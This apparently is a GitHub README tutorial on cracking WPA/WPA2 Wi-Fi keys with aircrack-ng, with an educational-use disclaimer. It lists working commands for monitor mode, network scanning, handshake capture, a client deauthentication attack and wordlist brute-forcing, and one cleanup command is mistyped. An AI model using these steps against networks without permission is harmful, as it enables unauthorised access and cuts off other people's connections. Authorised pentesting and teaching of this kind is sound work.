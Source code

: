 # Wi-Fi Cracking Tutorial: WPA/WPA2 Cracking with Aircrack-ng 

## Introduction
This the next part of https://github.com/Officerwasu/Wi-Fi_pentesting  

Read that first.

**Disclaimer:** *This tutorial is for educational purposes only. Attempting to crack Wi-Fi networks for which you do not have explicit permission is illegal and unethical. Always respect privacy and operate within legal boundaries.*


## Prerequisites
List what the user needs before they start:
* **Hardware:**
    * Wireless network adapter capable of monitor mode and packet injection.    
* **Software:** 
    * Any linux distro with sudo permissions.
    * aircrack-ng suite

## Setup
Instructions for any initial setup:
1.  Installing necessary tools.
    ```bash
    sudo apt update && sudo apt install aircrack-ng
    ```
2.  Ensuring your wireless adapter is recognized and can be put into monitor mode.
    * `ifconfig`
    * `ifconfig [wireless interface, eg wlan0]`
       * Example: ![Monitor Mode Activation](images/ifconfig.png)
    * `sudo airmon-ng start wlan0`
       * Example: ![Monitor Mode Activation](images/monitor_mode.png)

## Tutorial Steps

### Step 1: Scanning for Target Networks
1. `sudo airodump-ng wlan0`
2.  It will show you all the wifi networks in your vicinity
3.  What to look for BSSID, CH, ESSID of the target network.
     * Example: ![Airodump Scan](images/airodump.png)
    

### Step 2: Capturing the Handshake
1.  `sudo airodump-ng -c [channel] --bssid [BSSID] --write capture wlan0`.
    * Example: ![Handshake Capture](images/handshake.png)
      
2.  (Optional) Deauthenticating a client to speed up handshake capture.
    * `sudo aireplay-ng --deauth 0 -a [BSSID] wlan0`
        * Example: 
        * ![Deauth Attack](images/deauth.png)

### Step 3: Cracking the Password
Brute-force attack.
1.  Using Aircrack-ng with a wordlist:
    *`aircrack-ng [capturefile.cap] -w [path to wordlist]`.
    * Example: ![Aircrack Success](images/aircrack.png)


### Step 4: [Cleanup]
1.  Well we found the key
2.  `sudo airmon-ng stop wlan0` and `sudo sservice NetworkManager restart`
     * Example: ![Network Restored](images/restored.png)

        
